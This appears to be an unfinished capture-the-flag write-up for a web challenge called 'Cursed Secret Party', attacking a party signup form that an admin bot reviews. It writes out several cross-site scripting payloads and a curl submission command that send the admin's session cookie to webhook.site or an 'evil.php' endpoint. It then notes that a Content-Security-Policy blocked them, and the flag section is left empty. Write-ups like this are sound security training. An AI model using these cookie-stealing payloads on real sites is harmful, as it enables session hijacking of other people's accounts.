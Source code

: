# Cursed Secret Party

## The Problem

Points: 

Rating:

Author:

Flavor Text:
```

You've just received an invitation to a party. Authorities have reported that the party is cursed, and the guests are trapped in a never-ending unsolvable murder mystery party. Can you investigate further and try to save everyone?


```

Attachments : [web_cursed_party.zip](web_cursed_party.zip)



## Solution


looks like a signup form system with an admin backend. 

the api takes in the input and the bot.js simulates the admin user accessing the site. 

ill inject an attack to pull their session cookie and use it to access the site. 



test <script>image = new image(); image.src=\"https://webhook.site/d8370670-7370-451e-ac01-9557328f9228?c=\"+document.cookie;</script>

<script>image = new Image(); image.src=\\\"https://webhook.site/d8370670-7370-451e-ac01-9557328f9228?c=\\\"+document.cookie;</script>


curl 'http://161.35.172.25:31135/api/submit' -H 'Content-Type: application/json' --data-raw "{"halloween_name":"test","email":"test@me.com","costume_type":"<script>image = new Image(); image.src="https://webhook.site/d8370670-7370-451e-ac01-9557328f9228?c="+document.cookie;</script>","trick_or_treat":"tricks"}"


<SCRIPT type=”text/javascript”>
Var adr = ‘../evil.php?cakemonster=’ + escape(document.cookie);
</SCRIPT>


\"<script src='https://webhook.site/" + webhook.Uuid + "'></script>\"

several variations on payloads and formatting have had no effect. I tryed two different webhook sites and got nowhere. 


it turned out that there is an additional security feature included in index.js

```
app.use(function (req, res, next) {
    res.setHeader(
        "Content-Security-Policy",
        "script-src 'self' https://cdn.jsdelivr.net ; style-src 'self' https://fonts.googleapis.com; img-src 'self'; font-src 'self' https://fonts.gstatic.com; child-src 'self'; frame-src 'self'; worker-src 'self'; frame-ancestors 'self'; form-action 'self'; base-uri 'self'; manifest-src 'self'"
    );
    next();
});

```

the entire website includes:
![](Content-Security-Policy.png)

## Flag
```

```

## Final Notes
